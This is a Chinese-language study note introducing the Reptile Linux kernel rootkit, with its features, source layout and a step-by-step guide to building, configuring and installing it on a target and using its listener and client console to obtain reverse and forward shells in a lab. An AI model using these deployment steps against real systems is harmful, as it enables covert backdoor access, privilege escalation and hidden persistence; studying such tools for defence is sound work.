 # Reptile介绍

## 1.background

apt组织，高隐藏、高持久化攻击

## 2.concept

* `rootkit`:控制目标计算机或网络的未授权恶意软件，也可理解为恶意软件用来隐藏自己的一种手段（固件（firmware）rootkit、虚拟化rootkit、内核级rootkit、库级rootkit、应用程序级rootkit等）
* `trogan`:将通信流量伪装成互联网上最常见的https流量，从而有效防止流量被检测和干扰,绕过GFW
* `LKM`:Loadable Kernel Modules,可加载内核模块程序.主要作用是用来扩展linux的内核功能。可以动态地加载到内存中，无须重新编译内核。故常被用在rootkit技术上

## 3.functions

- Give root to unprivileged users
- Hide files and directories
- Hide processes
- Hide himself
- Hide TCP/UDP connections
- Hidden boot persistence
- File content tampering
- Some obfuscation techniques
- ICMP/UDP/TCP port-knocking backdoor
- Full TTY/PTY shell with file transfer
- Client to handle Reptile Shell
- Shell connect back each X times (not default)

## 4.foundation

[khook](https://github.com/milabs/khook)：内核钩子框架

[kmatryoshka](https://github.com/milabs/kmatryoshka)：动态的模块加载器

参考

- https://github.com/mncoppola/suterusu
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/creaktive/tsh
- https://github.com/brenns10/lsh



## 5.source code

代码库中，主要包含以下目录和文件：

1. **configs** : 存放默认配置文件。
2. **kernel** : 存放内核模块的源代码，包括各种功能模块（如 `backdoor.c`，`dir.c`，`file.c`等）和辅助文件（如 `encrypt`目录下的加密模块 `encrypt.c`）。
3. **Makefile** : 包含项目的构建规则。
4. **scripts** : 存放脚本文件，如配置脚本 `config.sh`，安装脚本 `installer.sh`等。
5. **userland** : 存放用户空间应用程序的源代码，如客户端 `client.c`，传输模块 `pel.c`等。![image-20241223195216721](./assets/2.Reptile介绍/image-20241223195216721.png)

![image-20241223195255364](./assets/2.Reptile介绍/image-20241223195255364.png)

![image-20241223195323196](./assets/2.Reptile介绍/image-20241223195323196.png)

## 6.使用

> 分为被控端和控制端，简单来说，**被控端**需要配置、编译，**控制端**只需要编译就可以

### 6.1 被控端

```bash
apt install build-essential libncurses-dev linux-headers-$(uname -r)
```

```bash
make menuconfig #配置
make
make install
```

Backdoor configuration：

    password 是连接密码
    source port of magic packets 是控制端主动连被控端时，发送的交流包中的源端口
    magic value 控制端的token

Reverse shell：

```
第一个 Host 是控制端的ip
第二个是控制端与被控端的通信端口
第三个是反弹shell的请求间隔时间
```

### 6.2 控制端

编译即可，**output** 目录产生有三个可执行文件

```bash
make client
```

#### 6.2.1 反向连接

listener ：就是监听反向连接的工具，用法如下：

```bash
Usage: ./listener [ -p port ] [ -s secret ]
# -p是本地监听端口
# -s是被控端配置的password
```

#### 6.2.2 正向连接

用到 **client** 文件，执行后会进入像 msfconsole 的配置界面，`show` 命令可以看配置参数

```bash
Reptile Client
Written by: F0rb1dd3n

	help		Show this help
	set		Set value to a variable
	unset		Unset value to a variable
	show		Show the current configuration
	run		Run the listener and send the magic packet
	export		Export a configuration to a file
	load		Load a configuration from a file
	exit		Exit this shell

Type: "help <command>" to see specific help

reptile-client> show

VAR		VALUE			DESCRIPTION

LHOST		      			Local host to receive the shell
LPORT		      			Local port to receive the shell
SRCHOST		      			Source host on magic packets (spoof)
SRCPORT		      			Source port on magic packets (only for TCP/UDP)
RHOST		      			Remote host
RPORT		      			Remote port (only for TCP/UDP)
PROT		      			Protocol to send magic packet (ICMP/TCP/UDP)
PASS		      			Backdoor password (optional)
TOKEN		      			Token to trigger the shell
```

* LHOST、LPORT是控制端（也就是本地）的ip、port
* SRCHOST、SRCPORT是控制端连接被控端时，首个tcp会话的请求数据包的源地址、源端口，也就是说我配置成SRCHOST=1.1.1.1、SRCPORT=666，那么就会像这里显示这个样子
* RHOST、RPORT是被控端的ip、port。
* PROT是通信流量的协议。
* PASS是被控端配置的password。
* TOKEN是前面那个 magic value

配置完成后，执行 `run`，就可以拿到正向shell

### 6.3 实操

控制端：192.168.20.156

被控端：192.168.20.158

## 3.实操

控制端：192.168.20.156

被控端：192.168.20.158

![image-20241223195556844](./assets/2.Reptile介绍/image-20241223195556844.png)

![image-20241223195638518](./assets/2.Reptile介绍/image-20241223195638518.png)